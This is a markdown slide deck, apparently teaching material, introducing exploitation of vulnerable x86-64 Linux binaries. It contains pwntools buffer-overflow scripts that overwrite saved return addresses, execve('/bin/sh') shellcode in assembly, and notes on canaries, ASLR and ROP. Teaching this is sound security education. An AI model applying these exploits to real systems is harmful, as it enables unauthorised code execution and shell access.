

# pwn

exploiting (very) vulnerable x86-64 binaries on linux

---

## c bad

- trusts you too much
  - array accesses
  - integer overflows
- mixing data and metadata
  - return addresses on stack
  - null-terminated strings
- manual {init,cleanup}
- poor type system

---

some dangerous library functions:

- `gets`
- `strcpy`
- `scanf`
- `sprintf`
- …

---



---

## buffer overflows

---

### stepping out of our lane

- causing crashes
- changing stuff on the stack
- jumping to arbitrary places in the code
  - other functions
  - middle of other functions
- running arbitrary code*

---

### causing crashes

Inputs like `AAAAAAAAAAAAAAAAAAAAAAAAAAAA…`

```py
from pwn import *

p = process("./vuln")
p.sendline(b"A" * 500) # adjust number as necessary
```

---

### changing stuff on the stack

```py
from pwn import *

padding = 64

p = process("./vuln")
p.sendline((b"A" * padding) + p32(0xDEADBEEF))
```

---

```c
// ...
char expected[36];
char actual[36];
strcpy(expected, "something something");

gets(actual);
printf("  actual: %s\n", actual);
printf("expected: %s\n", expected);
```

```py
import sys

magic_constant = 12  # obtained through trial-and-error
sys.stdout.buffer.write(b"A" * 35 + b"\x00" + b"A" * (35 + magic_constant))
```

---

### changing (especially useful) stuff on the stack

1. set a breakpoint in the vulnerable function
2. run
3. check the addresses of
   - the vulnerable buffer
   - saved rip (`info frame`)
4. send `(b'A' * padding) + p64(spoof_return_addr)`

---

```py
from pwn import *

saved_rip_addr = 0x7fffffff...
buffer_addr = 0x7fffffff...
padding_size = saved_rip_addr - buffer_addr

spoofed_return_addr = 0x40...

p = process("./pwnable")
p.sendline((b'A' * padding_size) + p64(spoofed_return_addr))
p.interactive()
```

---

### shellcode

compiled bytes (position-independent) that do stuff

examples:

- open a shell
- read a file
- change permissions on a file
- callback shell
- …

considerations: prohibited bytes, …

---

x86-64 shellcode to do `execve("/bin/sh", NULL, NULL)`

```assembly
/* syscall number for execve */
mov rax, 59

/* bytes corresponding to "/bin/sh" */
mov rbx, 0x68732f2f6e69622f

/* move the string to the stack */
push rbx

/* set the first arg to the address of the string */
mov rdi, rsp

/* argv is NULL */
mov rsi, 0

/* envp is NULL */
mov rdx, 0

syscall
```

---

### assembling with pwntools

```py
assembly = '''
    nop
    nop
    nop
'''

# convert assembly to bytes
# amd64 = intel x86-64
shellcode = asm(assembly, arch='amd64')
```

---

### write ⊕ execute

don't execute stack contents as code!

the pages of memory for the stack should never be executable!

gcc requires you to explicitly disable this (`-z execstack`).

---

### stack canaries

1. insert some secret bytes at the boundaries of buffers
2. before leaving the function, verify that they haven't been overwritten

gcc requires you to explicitly disable this (`-fno-stack-protector`).

pretty solid. if you can somehow leak the canary though, you can just delicately replace it.

---

### aslr

address-space layout randomization

moves the stack around to make it harder for the attacker to guess the location of their exploits.

---

### rop

1. make a list of useful gadgets
2. chain gadgets to execute arbitrary-ish assembly
3. ???
4. profit

<!-- also jop -->

---

### format string vulns

[_optional reading_](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)
